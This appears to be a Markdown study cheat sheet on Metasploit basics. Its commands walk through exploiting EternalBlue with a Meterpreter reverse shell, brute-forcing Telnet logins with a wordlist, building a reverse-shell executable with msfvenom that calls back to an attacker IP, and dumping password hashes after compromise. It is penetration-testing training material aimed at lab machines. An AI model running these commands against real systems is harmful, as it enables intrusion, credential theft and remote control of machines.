 # Metasploit - Basics

## Introduction
Metasploit is the most powerful penetration testing framework, used for **finding, exploiting, and maintaining access** to vulnerable systems.

---

## Getting Started with Metasploit
### Launching the Metasploit Console
```bash
msfconsole
```
**Starts the Metasploit Framework.**  
- Upon launching, you’ll see the Metasploit banner and stats (e.g., number of exploits, payloads, post modules, etc.).
- The prompt will change to:
  ```
  msf6 >
  ```
- Metasploit supports some **Linux commands** (`ls`, `pwd`) but lacks full shell functionality (`> redirection` isn’t available).

### Key Navigation Commands
| Command | Description |
|---------|------------|
| `help` | Lists all available Metasploit commands. |
| `exit` | Closes Metasploit. |
| `version` | Displays the current Metasploit version. |
| `history` | Shows a list of previously executed commands. |
| `back` | Exits a module and returns to the main console. |

---

## Finding and Selecting Modules
Metasploit modules include **exploits, scanners, payloads, and post-exploitation tools**.

### Searching for Modules
```bash
search ms17-010
```
**Finds modules related to MS17-010 (EternalBlue).**  
- The output includes:
  - **Module number** (e.g., `#2`)
  - **Module path** (e.g., `exploit/windows/smb/ms17_010_eternalblue`)
  - **Reliability rank** (e.g., `excellent` or `manual`)

🔹 **Filter Results by Type or Platform:**
```bash
search type:exploit platform:windows
```
**Lists all Windows-based exploits.**

### Selecting a Module
```bash
use exploit/windows/smb/ms17_010_eternalblue
```
**Loads the EternalBlue exploit.**
- The prompt will change to:
  ```
  msf6 exploit(windows/smb/ms17_010_eternalblue) >
  ```

---

## Configuring Exploit Options
### Viewing Required Parameters
```bash
show options
```
**Lists required and optional parameters.**

| Parameter | Description |
|-----------|-------------|
| `RHOSTS` | Target IP Address (must be set). |
| `RPORT` | Target Port (default: 445 for SMB). |
| `LHOST` | Attacker’s IP Address (used for reverse shells). |
| `LPORT` | Attacker’s Port (default: 4444). |

### Setting Module Parameters
```bash
set RHOSTS 10.10.12.229
set LHOST 10.10.44.70
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```
**Configures the target, attacker IP, and payload.**

🔹 **Setting Global Options:**
```bash
setg LHOST 10.10.44.70
```
**Applies `LHOST` across all modules until changed.**

---

## Executing an Exploit
```bash
exploit
```
**Runs the exploit against the target.**
- If successful, opens a **Meterpreter shell:**
  ```
  meterpreter >
  ```
- If unsuccessful, check error messages and reconfigure options (`set`, `check`).

🔹 **Running in Background:**
```bash
exploit -z
```
**Runs the exploit and backgrounds the session immediately.**

🔹 **Checking Target Vulnerability Before Exploiting:**
```bash
check
```
**Tests if the target is vulnerable without launching the attack.**

---

## Real-World Exploitation Examples

### Example 1: Exploiting MS17-010 (EternalBlue) on Windows 7
```bash
msfconsole
search ms17-010
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOSTS 10.10.12.229
set LHOST 10.10.44.70
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```
**Objective:** Gain a Meterpreter shell on a vulnerable Windows 7 machine.

---

### Example 2: Scanning & Exploiting SMB with Database
```bash
systemctl start postgresql
msfdb init
msfconsole
db_nmap -sV -p- 10.10.138.32
services -S microsoft-ds
use auxiliary/scanner/smb/smb_ms17_010
hosts -R
run
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.138.32; set LHOST 10.10.44.70
exploit
```
**Objective:** Scan for SMB vulnerabilities, save to the database, and exploit MS17-010.

---

### Example 3: Port Scanning & Telnet Brute Force
```bash
msfconsole
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.10.10.10; set PORTS 1-100
run
search type:auxiliary telnet
use auxiliary/scanner/telnet/telnet_login
set RHOSTS 10.10.10.10; set RPORT 23
set USER_FILE /usr/share/wordlists/users.txt
set PASS_FILE /usr/share/wordlists/rockyou.txt
run
```
**Objective:** Scan for open Telnet ports and brute-force weak credentials.

---

## Msfvenom - Payload Generation
### Listing Available Payloads
```bash
msfvenom -l payloads
```
**Displays all supported Metasploit payloads.**

### Generating a Reverse Shell Payload
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.44.70 LPORT=4444 -f exe > shell.exe
```
**Creates a Windows executable payload that connects back to the attacker's machine.**

---

## Meterpreter - Post-Exploitation Commands
| Command | Description |
|---------|------------|
| `help` | Lists available Meterpreter commands. |
| `background` | Sends the session to the background. |
| `getuid` | Displays the current user. |
| `sysinfo` | Shows target system details. |
| `hashdump` | Dumps NTLM password hashes. |
| `migrate <PID>` | Moves Meterpreter to another process for stability. |
| `shell` | Opens a command shell on the target system. |
| `getsystem` | Attempts privilege escalation to SYSTEM. |

---

